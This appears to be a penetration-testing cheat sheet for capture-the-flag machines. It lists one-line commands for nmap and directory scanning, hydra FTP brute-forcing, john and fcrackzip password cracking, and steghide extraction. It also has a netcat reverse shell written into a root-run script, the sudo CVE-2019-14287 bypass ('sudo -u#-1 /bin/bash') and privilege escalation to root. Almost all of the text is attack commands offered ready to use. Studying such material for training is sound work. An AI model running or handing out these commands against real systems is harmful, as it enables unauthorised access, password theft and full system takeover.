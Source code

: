 # nmap scan
sudo nmap -sC -sV -v -oN nmap.md TARGET_IP 


# Gobuster Scan
sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt

sudo gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt


# dirbuster scan
sudo dirb http://TARGET_IP/ -R 

# Cat all find read
cat *


# import TARGET_IP
$IP

# To Check Sudo Permissions
sudo -l

# curl command to change alphabets in web
sudo curl -A "CHANGE_LETTER" -L TARGET_IP


# prev esc linux bash shell
sudo bash

# download file from SSH TARGET MACHINE
scp USERNAME@TARGET_IP_ADDRS:FILENAME

# perl write to copy.sh [reverse shell]
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl

# FTP Usage
ftp TARGET_IP

# python shell - stable bash shell
python3 -c  'import pty;pty.spawn("/bin/bash")'

# hydra command to brute-force FTP with username
sudo hydra -l USERNAME -P /usr/share/wordlists/rockyou.txt TARGET_IP ftp

# run python http server
sudo python -m SimpleHTTPServer 80

# wget download file
sudo wget http://LOCAL_IP/FILE_NAME -0  PATH/PATH/

# john cracking the password
sudo john HASH_FILENAME --wordlist=/usr/share/wordlists/rockyou.txt

# john ZIP file cracking
sudo zip2john FILENAME.zip > OUTFILENAME

# fcrackzip command
fcrackzip <zip-file> -D -p /usr/share/wordlists/rockyou.txt

# 7zip
7z e ZIP_FILENAME  

# steghide command
steghide info FILENAME [info about filename]

steghide extract -sf FILENAME [extract]

# CyberChef to crack hash [base64]
https://gchq.github.io/CyberChef/

# sudo 1.8.21 exploit CVE-2019-14287
sudo -u#-1 /bin/bash [spawn as root] 
